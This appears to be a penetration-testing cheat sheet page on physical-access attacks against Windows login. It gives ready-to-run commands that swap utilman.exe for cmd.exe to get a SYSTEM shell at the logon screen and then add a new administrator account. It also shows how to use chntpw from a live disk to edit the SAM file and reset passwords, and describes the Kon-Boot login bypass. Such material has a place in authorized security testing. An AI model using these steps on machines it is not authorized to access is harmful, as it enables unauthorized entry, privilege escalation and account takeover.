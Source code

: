 # ⭕ Physical Attack

## <mark style="color:red;">Sticky Keys + Binary Replacement</mark>

If we can boot from a live USB and access the windows file system indirectly, it is possible to replace some of the binaries responsible for "sticky key" actions such as:

* <mark style="color:green;">**SETHC:**</mark> _sethc.exe_ is invoked when SHIFT is pressed 5 times
* [<mark style="color:green;">**UTILMAN:**</mark>](https://infinitelogins.com/2020/01/13/how-to-sign-into-any-windows-machine-when-you-have-physical-access/) _Utilman.exe_ is invoked by pressing WINDOWS+U
* <mark style="color:green;">**OSK:**</mark> _osk.exe_ is invoked by pressing WINDOWS+U, then launching the on-screen keyboard
* <mark style="color:green;">**DISP:**</mark> _DisplaySwitch.exe_ is invoked by pressing WINDOWS+P

These binaries are located inside _**`C:\Windows\System32`**_`.`we can **change** any of them for a **copy** of the binary **cmd.exe** (also in the same folder) and any time that you invoke any of those binaries a command prompt as **SYSTEM** will appear at the login screen.

```tsconfig
# You can access a SYSTEM cmd shell if you have access to the filesystem
# utilman.exe can be run BEFORE login by "WinKey + U"
# If you can access filesystem and change utilman.exe by a cmd.exe, SYSTEM shell will be run.

# Access can be done by live bootable key (Linux, Windows..)
# From a Windows 10 bootable key -> SHIFT + F10 to access filesystem
move d:\windows\system32\utilman.exe d:\windows\system32\utilman.exe.bak
copy d:\windows\system32\cmd.exe d:\windows\system32\utilman.exe

# OR 

C:\
cd windows\system32
ren utilman.exe utilman.exe.bak
copy cmd.exe utilman.exe

# Then on the logon screen --> WinKey + U
# And then
net user NewGuy abc123 /add
net localgroup Administrators NewGuy /add
# Reverting
# To restore utilman.exe, in the Command Prompt type in:
C:
cd windows\system32
del utilman.exe
```

## <mark style="color:red;">Modifying SAM</mark>

We can use the tool _**chntpw**_ to **modify the** _**SAM**_ **file** of a mounted Windows filesystem. Then, you could change the password of the Administrator user, for example. this tool is available in Kali Linux.

boot from a live disk and mount the windows installation partition (usually the C drive):

```tsconfig
# in case chntpw is not present in your distro
apt-get install chntpw ntfs-3g

# mount C drive
mount -t ntfs /dev/sda2 /mnt
```

change directory to:

```tsconfig
cd /mnt/WINDOWS/system32/config
```

list available users:

```tsconfig
chntpw -l SAM
```

Select User:

```tsconfig
chntpw -u <$USERNAME> SAM 
```

Select an Option from the Menu.

Unmount Windows Partition & Reboot.

{% hint style="warning" %}
This technique wont work on a windows 10  system if the PIN protection is also activated.
{% endhint %}

## <mark style="color:red;">Kon-Boot</mark>

**Kon-Boot** is one of the best tools around which can log you into Windows without knowing the password. It works by **hooking into the system BIOS and temporarily changing the contents of the Windows kernel** while booting (new versions work also with **UEFI**). It then allows you to enter **anything as the password** during login. The next time you start the computer without Kon-Boot, the original password will be back, the temporary changes will be discarded and the system will behave as if nothing has happened.

{% embed url="https://www.raymond.cc/blog/login-to-windows-administrator-and-linux-root-account-without-knowing-or-changing-current-password/" %}

It is a live CD/USB that can **patch the memory** so you **won't need to know the password to login**.\
Kon-Boot also performs the **StickyKeys** trick so you could press _**Shift**_ **5 times to get an Administrator cmd**.
